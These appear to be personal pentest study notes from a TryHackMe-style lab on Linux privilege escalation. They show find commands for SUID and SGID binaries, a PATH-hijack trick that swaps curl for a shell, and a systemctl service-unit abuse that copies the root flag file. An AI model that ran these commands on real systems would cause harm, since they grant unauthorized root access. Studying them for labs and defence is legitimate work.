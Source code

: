 # Linux Privilege Escalation
#pentest/tryhackme

## SUID and SGID
We should always try to find executables that can run with higher permissions, meaning they have their SUID set.

```shell
$ find / -perm /4000 2>/dev/null
```

We can also try to find SGID files (meaning this group can execute this executable at a higher permissions:

```shell
$ find . -perm /2000 2>/dev/null
```

Or both at the same time:

```shell
$ find . -perm /6000 2>/dev/null
```

## What after?
Once we find these we might be able to escalate permissions using something called GTFOBins.
[GTFOBins](https://gtfobins.github.io/) -> GTFOBins is a curated list of Unix binaries that can be exploited by an attacker to bypass local security restrictions.

## Ideas for exploiting a binary running as sudo
1. strings <binary name>
2. Suppose you see something like `curl` there.
	1. In this case we can make this binary look for the **wrong** curl.

Example:

```
$ cd /tmp
$ echo /bin/sh > curl
$ chmod 777 curl
$ export PATH=/tmp:$PATH
$ <call your binary that depends on curl and we will spawn a shell as sudo>
```


## Example of exploiting systemctl
```shell
# Create a variable holding a unique file
$ eop=$(mktemp).service

# Configure this file to execute something 
$ echo '[Service]
> ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
> [Install]
> WantedBy=multi-user.target' > $eop

# Link this with systemctl
$ /bin/systemctl link $eop
Created symlink from /etc/systemd/system/tmp.x1uzp01alO.service to /tmp/tmp.x1uzp01alO.service.

# And execute it now
$ /bin/systemctl enable --now $eop
Created symlink from /etc/systemd/system/multi-user.target.wants/tmp.x1uzp01alO.service to /tmp/tmp.x1uzp01alO.service.

# Did it work? Let's see if our /tmp/output got created
$ cat /tmp/output
```

## For more
[Linux Privilege escalation](https://blog.mzfr.me/linux-priv-esc)